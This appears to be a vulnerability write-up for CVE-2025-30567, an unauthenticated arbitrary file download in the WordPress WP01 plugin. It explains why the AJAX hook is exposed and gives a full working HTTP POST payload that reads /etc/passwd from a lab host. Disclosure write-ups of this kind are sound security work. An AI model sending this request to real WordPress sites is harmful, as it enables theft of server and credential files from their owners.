








## Introduction

Unauthorized Arbitrary File Download in WordPress WP01！

## Environment setup

Step 1: Download the WP01 Plugin，But...



Haha, don't worry, here is the source code of the plugin.

Step 2: Package the provided wp01 folder and upload it to the WordPress plugins section.like this-->



## Analysis

It's simple—the vulnerability is triggered at the following point:



Next, check where the make_archive method is called.



Two AJAX action hooks are present—one for logged-in users and another for non-logged-in users. This is the reason for the unauthorized access vulnerability.

Alright, now let's craft the payload to read the contents of /etc/passwd on the local machine.

```
POST /wp-admin/admin-ajax.php?action=wp01_generate_zip_archive HTTP/1.1
Host: 192.168.43.133
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=8b29e9ec5200189ba7e72e98d4c6d017; WS_ADMIN_URL=ws://192.168.43.133/notice; WS_CHAT_URL=ws://192.168.43.133/msg; wordpress_test_cookie=WP%20Cookie%20check; XDEBUG_SESSION=PHPSTORM; wp01-lang=en; wp_lang=en_US
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

target=passwd&path=/etc/
```

results：





OK, next, download this wp-01-passwd.zip file.



## Poc

Written based on Pocsuite3, see Poc_CVE-2025-30567.py for details.



## Reference

[CVE-2025-30567](https://nvd.nist.gov/vuln/detail/CVE-2025-30567)